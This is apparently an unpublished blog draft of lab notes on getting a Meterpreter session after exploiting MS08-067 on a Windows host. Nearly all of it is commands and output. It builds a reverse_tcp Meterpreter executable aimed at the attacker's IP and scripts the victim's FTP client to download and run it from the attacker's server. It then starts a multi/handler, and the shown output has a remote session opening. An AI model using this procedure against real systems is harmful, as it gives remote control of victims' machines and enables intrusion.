 ```yaml
---
published: false
---
```



## Some notes on getting Meterpreter up and running post exploitation

I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

I start the ftp service on my attacking machine

    service pure-ftpd start

I created a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
I exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

FTP is installed on the server.  Because FTP is not interactive I create a text file to pass to the ftp application.  I issue the following commands:

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get iambad.exe>> ftp.txt
    echo bye>> ftp.txt

Victim:  Execute the ftp command passing the ftp.txt as a parameter

    ftp -s:ftp.txt

Attacker:  Start msfconsole on attacking machine

    msfconsole
    
Attacker:  Start multi/handler, set LHOST, set LPORT, and start handler

    msf > use exploit/multi/handler
    msf exploit(handler) > set LHOST 192.168.30.36
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > run
    [*] Started reverse handler on 192.168.30.36:443 
    [*] Starting the payload handler...
    
Victim:  Execute payload

    iambad.exe

Attacker:  Meterpreter session obtained

    [*] Sending stage (770048 bytes) to 192.168.31.205
    [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
